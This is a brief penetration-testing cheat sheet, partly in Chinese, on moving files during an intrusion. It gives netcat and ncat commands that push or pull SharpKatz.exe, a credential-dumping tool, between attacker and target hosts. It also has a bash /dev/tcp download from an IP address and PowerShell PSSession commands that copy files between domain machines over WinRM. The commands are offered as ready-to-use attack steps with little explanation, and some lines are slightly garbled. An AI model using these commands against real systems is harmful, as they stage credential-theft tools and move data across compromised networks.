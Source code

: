 # Original NetCat
```bash
#Inbound
nc -l -p 8000 > Sharpkatz.exe
nc -q 0  {RHOST}  8000 < SharpKatz.exe #Attacker

#Outbound
sudo nc -l -p 443 -q 0 < SharpKatz.exe #Attacker
nc {LHOST} 443 > SharpKatz.exe
```
# Ncat (Nmap Create)
```bash
#Inbound
 ncat -l -p 8000 --recv-only > SharpKatz.exe
 ncat --send-only {RHOST} 8000 < SharpKatz.exe #attacker

#Outbound
sudo ncat -l -p 443 --send-only < SharpKatz.exe
ncat {LHOST} 443 --recv-only > SharpKatz.exe
```

# /dev/tcp
```bash
# Outbound,upload;.'
sudo ncat -l -p 443 --send-only < SharpKatz.exe
sudo nc -l -p 443 -q 0 < SharpKatz.exe

cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```
# PSSession
通过WinRM进行发送，这在**windows主机之间发送文件**时，会用到！
它需要在远程主机上有**Administrator/RemoteManagerUser**的对应权限（或者是PSSession的显式权限）
```powershell
#check
Test-NetConnection -ComputerName <HOSTNAME> -Port 

# DC01 <-from- $Session -to-> DATABASE01
 $Session = New-PSSession -ComputerName DATABASE01
 Copy-Item -Path "C:\samplefile.txt -ToSession" $Session -Destination "C:\Users\Administrator\Desktop\" #upload
 Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination "C:\" -FromSession $Session #Download
```
